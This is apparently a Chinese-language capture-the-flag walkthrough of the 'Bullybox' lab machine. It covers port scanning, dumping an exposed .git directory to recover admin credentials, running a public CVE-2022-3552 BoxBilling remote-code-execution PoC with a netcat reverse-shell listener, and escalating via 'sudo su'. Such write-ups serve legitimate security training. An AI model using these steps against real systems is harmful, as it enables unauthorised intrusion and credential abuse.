 ```yaml
---
description: Easy - Linux / BoxBilling 4.22.1.5 / CVE-2022-3552 / sudo su提权
---
```


# ✔️ Bullybox

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和80

```bash
nmap -sC -sV -p- -oA bullybox 192.168.149.27 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将域名添加到hosts文件中：

```bash
echo "192.168.149.27   bullybox.local" | tee -a /etc/hosts
```

* 检查/robots.txt文件，发现一些隐藏目录，依次查看没有任何收获：

<figure><img src="../../.gitbook/assets/2 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在80端口的登录界面进行注册：

```
- test@test.com
- fiii : Test123456
```

<figure><img src="../../.gitbook/assets/3 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 登录后并没有任何发现，只得知当前系统使用的是boxbilling程序：

<figure><img src="../../.gitbook/assets/4 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 枚举80端口上的隐藏文件/目录，这里发现一些/.git目录：

```bash
gobuster dir -u http://bullybox.local -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

<figure><img src="../../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

* 使用git-dumper提取目标网站的git中的内容：

```bash
git-dumper http://bullybox.local/.git .
```

<figure><img src="../../.gitbook/assets/6 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 .png" alt=""><figcaption></figcaption></figure>

* 在提取出来的文件中，**bb-config.php**中发现管理员凭证：

```
- **admin ：Playing-Unstylish7-Provided**
- admin@bullybox.local
```

<figure><img src="../../.gitbook/assets/8 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用该有效凭证进入admin的管理界面后，获取到当前运行的软件BoxBilling及其版本号：**BoxBilling 4.22.1.5**

<figure><img src="../../.gitbook/assets/9 .png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据应用及其版本号，查询到公开漏洞：CVE-2022-3552
* BoxBilling<=4.22.1.5 - Remote Code Execution

<figure><img src="../../.gitbook/assets/13 (1) (1).png" alt=""><figcaption></figcaption></figure>

* [https://www.exploit-db.com/exploits/51108](https://www.exploit-db.com/exploits/51108)

<figure><img src="../../.gitbook/assets/12 (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了相关PoC：

<figure><img src="../../.gitbook/assets/17 (1).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 修改脚本并利用：

```bash
python3 cve-2022-3552.py -d http://bullybox.local/ -u 'admin@bullybox.local' -p 'Playing-Unstylish7-Provided'

nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### ROOT

* 直接切换至root用户：

```bash
sudo su
```

<figure><img src="../../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>
